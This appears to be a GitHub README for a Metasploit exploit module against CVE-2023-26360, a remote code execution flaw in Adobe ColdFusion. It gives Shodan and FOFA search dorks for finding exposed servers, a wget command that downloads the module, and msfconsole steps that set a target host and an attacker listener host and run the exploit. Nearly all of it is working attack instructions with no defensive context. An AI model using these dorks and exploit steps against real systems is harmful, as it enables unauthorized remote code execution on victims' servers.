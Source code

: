 # CVE-2023-26360
![](https://img.shields.io/static/v1?label=Product&message=Adobe%20Cold%20Fusion&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2018%20Update%2015%20(and%20earlier)%20and%202021%20Update%205%20(and%20earlier)&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3%209.8%20Remote%20Code%20Execution&color=red)
  

- Shodan dork:
```
CFIDE port:"8500"
```
- FOFA dork:
```
body="CFIDE"&&port="8500"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Adobe_Cold_Fusion_CVE-2023-26360/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
cp adobe_coldfusion_rce_cve_2023_26360.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
## Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set rhosts target_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set lhost attacker_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > run
```
